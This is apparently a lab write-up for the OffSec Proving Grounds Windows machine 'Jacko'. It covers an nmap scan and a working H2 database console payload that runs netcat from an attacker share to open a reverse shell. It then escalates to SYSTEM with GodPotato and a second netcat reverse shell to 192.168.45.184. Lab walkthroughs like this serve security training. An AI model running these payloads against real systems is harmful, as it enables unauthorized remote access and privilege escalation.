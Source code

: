 # Jacko

## Info

Jacko is an intermediate windows machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
80/tcp    open     http          syn-ack ttl 125 Microsoft IIS httpd 10.0
135/tcp   open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds? syn-ack ttl 125
5040/tcp  open     unknown       syn-ack ttl 125
7680/tcp  open     pando-pub?    syn-ack ttl 125
8082/tcp  open     http          syn-ack ttl 125 H2 database http console
9092/tcp  open     XmlIpcRegSvc? syn-ack ttl 125
49664/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## User

h2 database engine is vulnerable to the following searchsploit poc.

```
/usr/share/exploitdb/exploits/java/local/49384.txt
```

After connecting to my share using net use command, execute netcat and receive a shell.

```
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c \\\\192.168.45.184\\share\\nc64.exe 192.168.45.184 5040 -e cmd").getInputStream()).useDelimiter("\\Z").next()');
```

## Root

Only basic commands could be used with the shell as no path is set.

Finding privs with whoami.

```
C:\Windows\System32\whoami.exe /priv
```

Finding systeminfo.

```
C:\Windows\System32\systeminfo.exe
```

As tony has seImpersonatePrivilege enabled God Potato can be used to receive a shell as nt authority system.

```
.\potato.exe -cmd "C:\Users\tony\nc64.exe 192.168.45.184 7680 -e cmd"
```
